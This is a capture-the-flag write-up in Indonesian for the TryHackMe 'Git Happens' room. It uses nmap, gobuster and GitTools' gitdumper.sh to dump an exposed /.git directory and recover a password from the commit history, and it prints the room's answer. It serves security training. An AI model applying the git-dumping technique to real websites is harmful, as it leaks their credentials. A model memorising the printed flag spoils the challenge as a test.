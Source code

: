 # Git Happens
Tryhackme challenge: https://tryhackme.com/room/githappens
IP Machine: 10.10.19.3

## Task 1 Capture the Flag
- Scanning port menggunakan nmap
```sh
nmap -sC -sV -A <IP_Machine> 
```

- Port yang terbuka hanya port 80 (Web Server). Sekarang kita coba akses halaman web melalui browser dengan url `http://<IP_Machine>`

- Sekarang kita coba mencari halaman yang tersembunyi dengan menggunakan tool gobuster
```sh
gobuster dir -u http://<IP_Machine> -w /usr/share/wordlists/dirb/common.txt
```

- Ditemukan halaman **/.git**, sekarang kita coba akses halaman tersebut di browser dengan url `http://<IP_Machine>/.git`. Ternyata halaman tersebut berisi hasil clonning repository git

- Kita bisa memanfaatkan GitTools untuk menyalin repository tersebut ke local. Untuk melakukan instalasi cukup jalankan perintah berikut ini
```sh
git clone https://github.com/internetwache/GitTools.git
```


- Navigasi ke folder **GitTools/Dumper** tempat program **gitdumper.sh** tersimpan

- Clonning repository ke local dengan **gitdumper.sh** dan tunggu prosesnya hingga selesai
```sh
./gitdumper.sh http://10.10.19.3/.git/ <path_local>
```

- Navigasi ke folder hasil clonning kemudian cek status terakhir repository dengan git
```sh
git status
```

- Sekarang kita lihat log perubahannya dengan git
```sh
git log
```

- Tekan enter untuk menampilkan log berikutnya. Di log selanjutnya terdapat commit kapan halaman login dibuat. Halaman login dibuat pada tanggal 23 Juli 2020. Copy kode hash pada bagian commit untuk menampilkan detail log nya 
```sh
git log
```

- Tampilkan detail lognya dengan git
```sh
git show 395e087334d613d5e423cdf8f7be27196a360459
```

- Tekan enter untuk menampilkan log selanjutnya. Pada bagian paling bawah ditemukan username dan password





- **Pertanyaan:** Find the Super Secret Password
- **Jawaban:**
```sh
Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!
```

